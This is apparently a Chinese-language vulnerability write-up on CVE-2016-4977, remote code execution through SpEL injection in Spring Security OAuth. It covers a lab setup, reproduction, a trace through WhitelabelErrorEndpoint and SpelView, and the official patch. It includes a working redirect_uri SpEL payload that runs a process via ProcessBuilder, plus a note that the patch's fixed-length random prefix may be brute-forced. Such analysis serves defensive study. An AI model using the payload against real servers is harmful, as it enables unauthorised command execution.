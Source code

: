 # Spring Security OAuth RCE (CVE-2016-4977) 漏洞分析

## 漏洞介绍

![image-20210219231451748](CVE-2016-4977.assets/image-20210219231451748.png)

## 环境搭建

`这里是使用window的idea搭建`下载源代码，直接导入工程启动就OK。[源代码下载地址](http://secalert.net/research/cve-2016-4977.zip)。访问`127.0.0.1:8080`

![image-20210219231819148](CVE-2016-4977.assets/image-20210219231819148.png)

## 漏洞复现

访问`http://127.0.0.1:8080/oauth/authorize`页面进行认证登录

用户名是：`user` 密码是：`password`

![image-20210219232049395](CVE-2016-4977.assets/image-20210219232049395.png)

原因是因为配置文件`application.properties`里面写了

![image-20210219232204534](CVE-2016-4977.assets/image-20210219232204534.png)

登录成功之后访问`http://127.0.0.1:8080/oauth/authorize?response_type=token&client_id=acme&redirect_uri=hellotom`

![image-20210219232632661](CVE-2016-4977.assets/image-20210219232632661.png)

发现这里展示出了`hellotom `，而利用点就是这里，我们使用`SpEL`表达式，进行测试。输入`redirect_uri=${1%2b1}`

![image-20210219233138950](CVE-2016-4977.assets/image-20210219233138950.png)

成功执行成`2`
，接下来我们弹一个计算器exp:`redirect_uri=${new%20java.lang.ProcessBuilder(new%20java.lang.String(new%20byte[]{99,97,108,99})).start()}`

![image-20210219233417903](CVE-2016-4977.assets/image-20210219233417903.png)

成功执行

## 漏洞分析

漏洞的触发点是在`/spring-security-oauth/spring-security-oauth2/src/main/java/org/springframework/security/oauth2/provider/endpoint/WhitelabelErrorEndpoint.java`

![image-20210220010536341](CVE-2016-4977.assets/image-20210220010536341.png)

可以看到程序通过`oauthError.getSummary()`来获取错误信息

![image-20210220010626981](CVE-2016-4977.assets/image-20210220010626981.png)

然后将我们的请求参数，装入`model`中，再用`SpelView`进行渲染。

![image-20210220010924079](CVE-2016-4977.assets/image-20210220010924079.png)

跟进这个`SpelView`方法

![image-20210220011825279](CVE-2016-4977.assets/image-20210220011825279.png)

发现下面这句话就是可以执行SpEL表达式，但是前面的变量使用this，说明会使用其对象。

```java
Expression expression = SpelView.this.parser.parseExpression(name);
Object value = expression.getValue(SpelView.this.context);
```

然后我们发现`render`方法使用了其变量

![image-20210220012116264](CVE-2016-4977.assets/image-20210220012116264.png)

跟进`replacePlaceholders`方法

![image-20210220012500083](CVE-2016-4977.assets/image-20210220012500083.png)

这个函数`parseStringValue`是个递归，也就是说如果表达式的值中有`${xxx}`这样形式的字符串存在，就会再取`xxx`作为表达式来执行。是调用`resolvePlaceholder`方法

![image-20210220012822337](CVE-2016-4977.assets/image-20210220012822337.png)

然后我们动态调试一下

![image-20210220013530679](CVE-2016-4977.assets/image-20210220013530679.png)

可以看到是去掉了`${}`

第一次内容是`errorSummary`就执行

![image-20210220013647485](CVE-2016-4977.assets/image-20210220013647485.png)

第二次就是我们传递exp并且去掉了`${}`

![image-20210220013838006](CVE-2016-4977.assets/image-20210220013838006.png)

![image-20210220014127250](CVE-2016-4977.assets/image-20210220014127250.png)

## 官方修复

https://github.com/spring-projects/spring-security-oauth/commit/fff77d3fea477b566bcacfbfc95f85821a2bdc2d

![image-20210220014620317](CVE-2016-4977.assets/image-20210220014620317.png)

`不过这个Patch有一个缺点：`RandomValueStringGenerator`生成的字符串虽然内容随机，但长度固定为6，所以存在暴力破解的可能性。`

![image-20210220014702074](CVE-2016-4977.assets/image-20210220014702074.png)

## 参考

> https://paper.seebug.org/70/
